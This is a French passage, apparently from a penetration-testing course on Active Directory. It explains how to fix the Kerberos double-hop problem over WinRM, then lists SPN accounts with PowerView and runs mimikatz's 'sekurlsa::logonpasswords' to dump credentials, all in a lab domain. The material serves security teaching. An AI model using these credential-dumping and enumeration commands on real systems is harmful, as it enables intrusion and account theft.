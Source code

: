 Une fois cela fait, nous devons redémarrer le service WinRM en tapant `Restart-Service WinRM`notre PSSession actuelle. Cela nous expulsera, nous allons donc démarrer une nouvelle session PSSession en utilisant la session enregistrée nommée que nous avons configurée précédemment.

Après avoir démarré la session, nous pouvons voir que le problème du double saut a été éliminé, et si nous tapons `klist`, nous aurons les tickets en cache nécessaires pour atteindre le contrôleur de domaine. Cela fonctionne car notre machine locale usurpera désormais l'identité de la machine distante dans le contexte de l' `backupadm`utilisateur et toutes les demandes de notre machine locale seront envoyées directement au contrôleur de domaine.

  Problème de "double saut" Kerberos

```
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01

```

Nous pouvons désormais exécuter des outils tels que PowerView sans avoir à créer un nouvel objet PSCredential.

  Problème de "double saut" Kerberos

```
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc

```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname